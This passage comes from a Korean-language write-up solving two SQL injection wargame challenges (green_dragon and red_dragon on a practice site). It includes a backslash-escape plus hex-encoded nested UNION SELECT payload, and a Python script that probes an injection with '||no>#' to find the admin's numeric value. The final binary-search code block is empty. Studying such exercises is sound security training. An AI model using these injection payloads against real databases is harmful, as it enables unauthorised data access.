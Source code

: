 ```php
?>
```
### exploit
별다른 필터링은 없지만 **'과 "** 를 필터링하기 때문에 새로운 방법을 찾아야한다.<br>
id에 \값을 넣어 이스케이프한다고 해도 or 1=1을 통해 출력되는 값이 없다. 이는 green_dragon 테이블이 비어있다는 것을 의미한다.
값을 출력하기 위해 union select를 사용할 것이다.
```sql
query1: select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'
query2: select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'
->
query1: select id,pw from prob_green_dragon where id='\' and pw='union select 0x5c,0x756e696f6e2073656c65637420636861722839372c3130302c3130392c3130352c3131302923#'
query2: select id from prob_green_dragon where id='\' and pw='union select char(97,100,109,105,110)#'
payload = id=\&pw=union select 0x5c,0x756e696f6e2073656c65637420636861722839372c3130302c3130392c3130352c3131302923%23
```
union을 사용할 때 \과 함께 사용하려면 hex값으로 인코딩 해줘야한다.
<br><br>

## Red_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```
**is_numeric:** 값이 숫자 또는 숫자 문자열인지 확인하는 함수
### exploit
admin에 해당하는 no 값을 알아내야한다.
```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for ran in range(100):
  param = {'id':"'||no>%23", 'no':f"%0a{str(10 ** ran)}"}
  print(f'?id={param['id']}&no={param["no"]}')
  res = requests.get(url=url+f'?id={param['id']}&no={param["no"]}', cookies=cookie)
  if 'Hello admin' not in res.text:
    print(f'10^{ran-1} < no < 10^{ran}')
    break
```
이 코드를 통해 no의 범위를 알아낼 수 있었다.<br>
다음으로 이 범위에 대한 이분 탐색을 이용한 코드로 정확한 값을 알 수 있다. 
```python
```